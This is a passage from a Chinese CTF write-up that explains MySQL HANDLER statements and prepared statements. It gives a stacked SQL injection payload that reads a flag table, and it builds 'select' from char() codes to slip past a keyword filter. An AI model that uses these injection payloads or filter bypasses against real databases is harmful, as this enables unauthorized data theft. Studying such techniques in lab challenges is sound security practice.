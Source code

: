 ```mysql
# 3、不通过索引查看表
# READ FIRST: 获取句柄的第一行
# READ NEXT: 依次获取其他行（当然也可以在获取句柄后直接使用获取第一行）
# 最后一行执行之后再执行 READ NEXT 会返回一个空的结果
HANDLER tbl_name READ { FIRST | NEXT }
    [ WHERE where_condition ] [LIMIT ... ]

# 关闭已打开的句柄
HANDLER tbl_name CLOSE
```

于是我们可以使用 handler 语句去查看数据：

先打开，然后查看，接着关闭：

![image-20221229145901288](https://s2.loli.net/2022/12/29/jpN75QRUBlJmZCa.png)

payload：

```mysql
1';handler+`1919810931114514`+open;handler+`1919810931114514`+read+first;handler+`1919810931114514`+close;%23
```

成功查询到flag。我觉得 handler 挺重要的。



方法二：

我们可以使用 **mysql 预处理语句**:

```mysql
- 在sql语句中，@  用于定义变量。
- concat()，函数用于字符串拼接。
- char()，将ASCII码转换为对应的字符。
- 定义预处理语句 PREPARE stmt_name FROM preparable_stmt; 
- 执行预处理语句 EXECUTE stmt_name [USING @var_name [, @var_name] ...]; 
- 删除(释放)定义 {DEALLOCATE | DROP} PREPARE stmt_name;
```

首先，我们先使用 @ 定义变量：

```mysql
set @sql=concat(char(115,101,108,101,99,116),"* from `1919810931114514`");
```

然后我们使用 prepare 编译，使用execute执行:

```mysql
PREPARE yuchuli from @sql;
EXECUTE yuchuli;
```

解释:

```mysql
   - 因为select被过滤，用char(115,101,108,101,99,116)生成select，也可以用拼接生成select。
   - 然后用concat()拼接成一句完整的sql语句。           
   - 先定义了一个变量sql，然后将变量sql定义为预处理语句，然后再执行。
```
